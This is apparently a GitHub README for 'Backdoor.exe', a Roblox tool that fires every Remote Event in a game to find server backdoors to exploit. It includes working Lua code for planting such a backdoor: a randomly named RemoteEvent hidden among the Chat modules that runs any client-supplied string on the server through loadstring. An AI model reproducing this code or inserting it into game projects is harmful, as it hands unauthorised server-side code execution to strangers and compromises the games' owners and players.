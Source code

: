 # Backdoor.exe
The best backdoor scanner there is. Our [Discord Server](https://discord.com/invite/6HndYgC).
YOU ARE NOT ALLOWED TO RESELL IT
## Credits
* iK4oS
* Bubba
* Redcarred2
* eeee

## Information
Backdoor.exe is script that scans for open backdoors in games in [Roblox](https://roblox.com/ "Roblox"). It does this by itterating through every Remote Event and firing a script of of them that creates an object. The scripts checks if the object is created, sees what Remote Event caused that to be created and stores it.

### Opening a backdoor
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
```lua
local Remote = Instance.new("RemoteEvent", game.Chat:WaitForChild("ClientChatModules").MessageCreatorModules)
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.OnServerEvent:connect(function(player, execute)
	loadstring(execute)()
end)
```

## To-do List
* [ ] Pop Up Logo
* [ ] Settings
* [ ] Account Info
* [ ] Server Lock
* [ ] Remote Search
* [ ] Save Backdoor

![Backdoor.exe](https://i.gyazo.com/76f9aeb40f6218a172f9988e46c9faaa.png)

